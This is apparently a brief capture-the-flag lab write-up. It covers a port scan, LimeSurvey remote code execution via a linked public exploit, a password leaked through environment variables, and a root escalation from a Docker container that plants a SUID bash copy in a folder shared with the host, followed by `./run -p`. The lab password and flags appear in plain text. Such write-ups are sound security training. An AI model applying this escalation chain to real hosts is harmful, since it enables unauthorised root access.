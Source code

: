 #Docker
Scan : 
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4ed7eb69ce06654281701b631b1ce234 (ECDSA)
|_  256 c1c607cff025ddde5f9c3f71f158bd8d (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.56 (Debian)
```

- Setup a mysql server  with docker compose try to avoid the user root , then finish the installation and follow this github to get a shell : https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/blob/main/exploit.py

- We exec `env` and get : pass --> 5W5HN4K4GCXf9E

User: VL{426b3b0a5425049b64219e9aeff3aa48}

- We enumerate the docker with : https://github.com/stealthcopter/deepce
and find a shared folder between the host and the docker  so we upload a /bin/bash
 with these perm : 
 
```sh
chmod u+s run
chmod +x run
```

- We can then connect with ssh exec the bash file to get the root :
```sh
./run -p # to keep the privileges
```

Root: VL{d75a070fbff631e40b21c99aea5d0a1a}